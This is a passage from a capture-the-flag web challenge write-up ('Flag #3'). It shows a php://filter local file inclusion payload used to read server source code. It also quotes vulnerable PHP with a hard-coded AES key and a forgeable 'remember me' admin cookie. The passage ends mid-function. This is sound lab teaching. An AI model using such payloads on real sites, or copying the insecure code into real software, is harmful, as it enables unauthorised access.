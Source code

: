 We also have the code that validate the "remember me" cookie and the login validation itself. We know the admin email address and that the password is stored in an environment variable. We'll get back to this later.

# Flag #3

Let's go back to the source of login.php. 

The website does validate a "remember me" cookie :

```php
// Validate Remember Me
if(isset($_COOKIE["remember_me"])) {
    if ($remember_me = validate_remember_me_cookie($_COOKIE["remember_me"])) {
        $_SESSION["admin"] = true;
        $_SESSION["username"] = "admin";
        header("Location: /admin/index.php");
        exit();
    }
}
```

What this piece of code do is look for a cookie named "remember_me" and calls a function named "validate_remember_me_cookie". If the cookie is validated, the user's session is set to admin.

We can see in the source that it includes lib/crypto.php. Let's follow that trail and look at this one

*/post.php?postid=php://filter/convert.base64-encode/resource=admin/lib/crypto.php*

This one is interesting :

```php
<?php

$key = "5UP3R_S3CURE,K3Y";
$cipher="AES-128-CBC";

function generate_remember_me_cookie($username, $admin) {
    $iv = substr(md5(mt_rand()), 0, 16);
    $t = time() + (3600 * 24 * 365);
    $data = $username . "|" . $t . "|" . $admin;
    return base64_encode(encrypt($data, $iv) . "|" . $iv);
}

function validate_remember_me_cookie($cookie) {
    global $key, $cipher;
    try {
        $cookie_expended = explode("|", base64_decode($cookie));
        $decrypted_cookie = decrypt($cookie_expended[0], $cookie_expended[1]);
        
        if(!$decrypted_cookie) {
            return false;
        }

        $exp_d_cookie = explode("|", $decrypted_cookie);
        
        if ($exp_d_cookie[1] < time()) {
            return false;
        }
        // TODO: Ajouter des comptes user
        if ($exp_d_cookie[2] != "1") {
            return false;
        }
    } catch (Exception $e) {
        throw $e;
        return false;
```
